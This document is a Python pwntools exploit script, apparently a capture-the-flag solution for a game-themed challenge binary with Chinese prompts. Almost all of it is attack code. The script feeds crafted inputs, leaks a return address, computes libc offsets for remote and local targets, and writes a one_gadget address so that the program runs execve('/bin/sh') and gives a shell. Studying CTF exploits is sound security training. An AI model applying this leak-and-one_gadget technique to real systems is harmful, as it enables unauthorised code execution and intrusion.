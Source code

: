 ```python
ru('切成几段呢？\n')
sl('20')
for i in range(20):
	ru('怎么料理呢：')
	sl(p64(i+0xdeadbeef))
ru('金枪鱼吃了大半。\n')
sl('')
ru('仔细观察一下，你发现这居然是一只E99p1ant，并且有大量邪恶的能量从中散发。\n')
sl('')
ru('的路程是__m:')
meter = 5 # 好像没啥用
sl(str(meter))

ru('Terrorist Win\n')
addr = u64(rc(6).ljust(8,'\0'))
log.hexdump(addr)
info_addr("ret",addr)

if is_remote:
    offset_addr = 0x20808
    offset_one_gadget = 0x45216
if is_local: 
    offset_addr = 0x26B43
    offset_one_gadget =  0x106ef8
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
'''

one_gadget = addr - offset_addr + offset_one_gadget
info_addr('one_gadget', one_gadget)

ru('~~！~？~…____\n')

#debug('b *'+hex(addr))
sl('')

# round2

print ru('你要把C4安放在哪里呢？\n')
sl('5')
se(p64(one_gadget)) # one_gadget
sleep(1)
ru('the bomb has been planted!\n')
sl('')
print ru('不如把它宰了，吃一顿大餐，你说吼不吼啊！\n')
sl('')
ru('起个名字:')
sl('Imagin')
ru('切成几段呢？\n')
sl('20')
for i in range(20):
    ru('怎么料理呢：')
    sl(p64(i+0xdeadbeef))
ru('金枪鱼吃了大半。\n')
sl('')
ru('仔细观察一下，你发现这居然是一只E99p1ant，并且有大量邪恶的能量从中散发。\n')
sl('')
ru('的路程是__m:')
meter = 5 # 好像没啥用
sl(str(meter))

```